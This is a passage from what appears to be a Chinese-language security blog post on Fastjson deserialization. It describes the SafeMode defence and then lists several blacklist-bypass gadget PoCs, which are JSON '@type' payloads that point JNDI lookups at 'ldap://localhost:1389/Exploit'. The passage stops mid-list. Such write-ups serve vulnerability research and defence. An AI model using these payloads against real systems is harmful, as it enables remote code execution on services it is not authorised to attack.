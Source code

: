 在1.2.68之后的版本，在1.2.68版本中，fastjson增加了safeMode的支持。safeMode打开后，完全禁用autoType。所有的安全修复版本sec10也支持SafeMode配置。

代码中设置开启SafeMode如下：

JAVA

```
ParserConfig.getGlobalInstance().setSafeMode(true);
```

开启之后，就完全禁用AutoType即`@type`了，这样就能防御住Fastjson反序列化漏洞了。

具体的处理逻辑，是放在`checkAutoType()`函数中的前面，获取是否设置了SafeMode，如果是则直接抛出异常终止运行：

![img](https://drun1baby.top/2022/08/13/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8704-Fastjson1-2-62-1-2-68%E7%89%88%E6%9C%AC%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/safeModeDefense.png)

## 0x06 其他一些绕过黑名单的Gadget

这里补充下其他一些Gadget，可自行尝试。注意，均需要开启AutoType，且会被JNDI注入利用所受的JDK版本限制。

### 1.2.59

com.zaxxer.hikari.HikariConfig类PoC：

JSON

```
{"@type":"com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://localhost:1389/Exploit"}或{"@type":"com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://localhost:1389/Exploit"}
```

### 1.2.61

org.apache.commons.proxy.provider.remoting.SessionBeanProvider类PoC：

JSON

```
{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"ldap://localhost:1389/Exploit","Object":"a"}
```

### 1.2.62

org.apache.cocoon.components.slide.impl.JMSContentInterceptor类PoC：

JSON

```
{"@type":"org.apache.cocoon.components.slide.impl.JMSContentInterceptor", "parameters": {"@type":"java.util.Hashtable","java.naming.factory.initial":"com.sun.jndi.rmi.registry.RegistryContextFactory","topic-factory":"ldap://localhost:1389/Exploit"}, "namespace":""}
```

### 1.2.68

org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig类PoC：
